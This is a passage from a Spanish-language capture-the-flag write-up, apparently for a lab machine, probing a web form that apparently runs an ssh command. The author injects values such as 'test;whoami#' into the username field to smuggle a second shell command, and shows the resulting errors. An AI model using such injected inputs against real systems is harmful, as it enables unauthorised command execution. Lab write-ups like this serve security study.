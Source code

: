 ![[Pasted image 20250811103353.png]]

El comando corriendo en backend será seguramente algo de este tipo:
```
ssh -i id_rsa username@hostname        #id_rsa = clave privada.
```

Quiero pensar que en el campo *username* podría inyectar un input.

Vamos a probar a realizar en:
- Hostname: *localhost*
- Username: *test;*

Nos devuelve un error que dice:

```
#### The host was not added!
ssh: Could not resolve hostname test: Temporary failure in name resolution/bin/bash: line 1: @localhost: command not found
```

Desde luego, por detrás, están pasando cosas y podría haber una posible inyección.

Volvemos a ver lo que pasa en el backend:
```
ssh -i id_rsa username@hostname
```
Yo podía probar de inyectar un comando en el campo de username, con:
```
ssh -i id_rsa test;whoami#@hostname
```

(no puedo poner directamente ;whoami porque el campo username no permite una entrada con un ; inicial).

Pongo el # porque no me interesa que coja la parte de @hostname.

Por eso, al poner:
```
┌──(polika4r㉿prm)-[~/Escritorio]
└─$ ls
BOARDLIGHT  COZYHOSTING
            
┌──(polika4r㉿prm)-[~/Escritorio]
└─$ whoami;# ls -l
polika4r

```

La parte de *ls -l* no la interpreta.

Vamos a probar:
- Hostname: *localhost*
- Username: *test;whoami*




Error:
```
ssh: Could not resolve hostname test: Temporary failure in name resolution/bin/bash: line 1: whoami@whoami: command not found
```
Debido a que *whoami@localhost* no existe como comando.
